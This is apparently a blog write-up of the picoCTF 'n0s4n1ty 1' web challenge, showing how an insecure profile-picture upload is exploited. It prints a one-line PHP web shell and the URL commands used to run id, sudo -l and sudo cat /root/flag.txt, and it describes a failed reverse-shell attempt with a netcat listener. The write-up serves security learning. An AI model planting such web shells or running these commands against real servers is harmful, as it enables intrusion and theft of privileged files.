






# Day 22: n0s4n1ty 1 picoCTF Web Exploitation Writeup

A picoCTF web challenge where a profile-picture upload became a PHP command execution booth with terrible life choices.

Today, we are tackling **n0s4n1ty 1** by picoCTF.

The challenge description says:

> _A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the_ `_/root_` _directory._

So the challenge already tells us three important things:

```text
There is a file upload feature.  
The upload feature is flawed.  
The flag is inside /root.
```

That is basically the CTF equivalent of a horror movie character saying:

```text
“Do not go into the basement.”
```

So obviously, we went into the basement.



## Uploading a Normal Image First

After launching the instance and opening the website, I got a page asking me to browse my files and upload a profile picture.



The first thing I did was upload the only image I had sitting in my Kali VM:

```text
Luffy from One Piece.
```

Because if I am going to test a suspicious upload form, I might as well send the future Pirate King first.



After uploading the image, the website returned a message saying:

```text
The file Luffy_Wallpaper.jpg has been uploaded.  
Path: uploads/Luffy_Wallpaper.jpg
```

That told me two useful things:

```text
The backend is using PHP.  
Uploaded files are stored in the /uploads/ directory.
```

The upload path was important because it meant the uploaded file was likely publicly accessible from the browser.

So the upload feature was not just accepting files.

It was saving them somewhere I could directly visit.

That is when the challenge started looking less like “profile picture upload” and more like “please put your payload here.”

## Trying a Reverse Shell First

My first instinct was to try a full PHP reverse shell.

I grabbed the classic PentestMonkey PHP reverse shell:

```text
https://github.com/pentestmonkey/php-reverse-shell
```

A PHP reverse shell is a PHP script that makes the target server connect back to your machine.

The rough idea is:

```text
Upload PHP reverse shell  
Start Netcat listener  
Visit uploaded PHP file  
Target connects back  
You get a shell
```

I edited the reverse shell and changed the IP address and port to match my listener.

Then I started Netcat:

```bash
nc -lvnp 1234
```

After that, I uploaded the PHP reverse shell and visited it from the browser.

The upload worked.

The callback did not.

The terminal stayed quiet.

Not “quiet before the storm” quiet.

More like “your payload has been left on read” quiet.

## Why the Reverse Shell Failed

At first, I thought the PHP file was not executing properly.

But after checking my network setup, the problem made more sense.

My Kali VM only had a VirtualBox NAT IP:

```text
10.0.2.15
```

That IP is private to my local VM network.

The picoCTF server on the internet cannot directly connect back to that internal NAT address.

So the reverse shell payload was not the main issue.

The issue was reachability.

Reverse shells need the target to connect back to your listener. If the target cannot reach your IP, the shell fails even if the file upload vulnerability works.

That was a good lesson.

A reverse shell is not magic.

It still obeys networking.

Unfortunately.

## Switching to a PHP Web Shell

Instead of fighting the reverse shell setup, I switched to something simpler:

```text
A PHP web shell.
```

I created a small PHP file called something like `shell.php`:

```php
<?php system($_GET['cmd']); ?>
```

This code takes whatever I pass through the `cmd` parameter in the URL and runs it as a system command on the server.

Basically:

```text
URL command goes in.  
Server command output comes out.
```

This is not a reverse shell.

It does not need the server to call back to my machine.

I just send commands through the browser.

Very low drama.

Very bad for the website.

## Understanding the cmd Parameter

The web shell uses this part:

```php
$_GET['cmd']
```

In PHP, `$_GET` reads values from the URL query string.

A query string is the part after the `?` in a URL.

For example:

```text
/uploads/shell.php?cmd=id
```

Here:

```text
shell.php
```

is the uploaded PHP file.

```text
?
```

starts the query string.

```text
cmd=id
```

means the parameter name is `cmd`, and the value is `id`.

So PHP reads:

```php
$_GET['cmd'] = "id"
```

Then this part runs it:

```php
system($_GET['cmd']);
```

So when I visit:

```text
/uploads/shell.php?cmd=id
```

the server runs:

```bash
id
```

and prints the result on the page.

That is how the URL becomes a tiny command remote control.

A very cursed remote control.

The kind you find in a hotel room and immediately know something bad happened there.

## Why %20 Is Used in URLs

Some commands need spaces.

For example:

```bash
sudo ls /root
```

But URLs do not handle spaces nicely.

So spaces are usually URL-encoded as:

```text
%20
```

That means this command:

```bash
sudo ls /root
```

becomes this in the browser:

```text
sudo%20ls%20/root
```

So the full URL becomes:

```text
/uploads/shell.php?cmd=sudo%20ls%20/root
```

Another example:

```bash
sudo cat /root/flag.txt
```

becomes:

```text
/uploads/shell.php?cmd=sudo%20cat%20/root/flag.txt
```

In short:

```text
Space in command = %20 in URL
```

The browser may sometimes encode spaces automatically, but writing `%20` manually makes the request cleaner and more predictable.

## Confirming Command Execution

After uploading the PHP web shell, I tested it with:

```text
/uploads/shell.php?cmd=id
```



It returned output.

That confirmed the uploaded PHP file was being executed by the server.

So this was not just an insecure upload.

This was arbitrary PHP code execution.

The website wanted a profile picture.

It got a command line in a fake moustache.

## Checking the Current User

Next, I checked which user the web server was running as:

```text
/uploads/shell.php?cmd=whoami
```


Then I checked sudo permissions:

```text
/uploads/shell.php?cmd=sudo%20-l
```



The important part was that the web server user had sudo access.

That changed everything.

The challenge description said the flag was in:

```text
/root
```

Normally, a web server user should not be able to read `/root`.

But if sudo permissions are badly configured, then the web shell can run privileged commands.

That is how a profile-picture upload turned into a root-file delivery service.

Somewhere, a developer probably felt a disturbance in production.

## Listing the Root Directory

I listed the `/root` directory with:

```text
/uploads/shell.php?cmd=sudo%20ls%20/root
```

This revealed:

```text
flag.txt
```



At this point, the server had fully stopped pretending to be a website.

It was basically taking requests like a drive-through window.

“Hi, can I get one root directory listing?”

“Sure, pull up to the next endpoint.”

## Reading the Flag

Finally, I read the flag with:

```text
/uploads/shell.php?cmd=sudo%20cat%20/root/flag.txt
```

And that gave me the flag.

## Flag

```text
picoCTF{wh47_c4n_u_d0_wPHP_16579372}
```

## Final Payload

The web shell I used was:

```php
<?php system($_GET['cmd']); ?>
```

Example command execution:

```text
/uploads/shell.php?cmd=id
```

Listing `/root`:

```text
/uploads/shell.php?cmd=sudo%20ls%20/root
```

Reading the flag:

```text
/uploads/shell.php?cmd=sudo%20cat%20/root/flag.txt
```

## Closing Thoughts

n0s4n1ty 1 was a great upload vulnerability challenge.

At first, I tried the classic reverse shell approach, but it failed because my Kali VM was behind VirtualBox NAT. The target server could not connect back to my private VM IP, so the listener never received a callback.

That failure was actually useful.

It reminded me that reverse shells depend on network reachability.

If the target cannot reach your listener, the payload can be correct and still fail.

The better move here was using a PHP web shell.

Once the server executed my uploaded PHP file, I could send commands through the URL using the `cmd` parameter. From there, `sudo -l` showed that the web server user had dangerous sudo privileges, and reading `/root/flag.txt` became straightforward.

The main lesson:

```text
File upload features are dangerous when the server accepts executable files and stores them somewhere publicly accessible.
```

A profile picture upload should accept images.

Not a PHP file that starts taking commands like it joined a criminal internship.

This challenge was not about forcing the biggest exploit possible.

It was about choosing the method that actually fit the situation.

Reverse shell failed.

Web shell worked.

And the website learned that accepting random PHP as a profile picture is how you end up with your `/root` directory doing customer service.


